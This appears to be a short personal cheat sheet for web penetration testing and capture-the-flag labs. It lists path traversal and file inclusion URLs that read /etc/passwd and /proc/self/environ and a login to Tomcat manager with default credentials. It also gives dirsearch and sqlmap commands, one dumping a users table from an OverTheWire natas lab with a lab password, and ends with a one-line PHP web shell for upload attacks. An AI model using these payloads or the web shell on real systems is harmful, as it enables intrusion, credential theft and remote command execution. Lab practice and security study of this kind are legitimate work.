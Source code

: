 ## Notes

Some notes to remember for Web.

### Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.

## Tomcat Manager
Apache Tomcat has a `manager`, so inorder to access him we place this at the end of the url `/manager/html`.  
If luck still isnt on our side, we add tomcat default credentials too at the begining of the url, such as: `http://tomcat:tomcat@host:proxy/manager/html`

### Tools

## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
./sqlmap.py --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J -u http://natas15.natas.labs.overthewire.org/index.php --data="username=a" -p username --string=doesn --level=5 --user-agent=Mozilla --dbms=MySQL --threads 4 -D natas15 -T users --dump

## Image Valun
<?php system($_GET['cmd']); die(); ?>

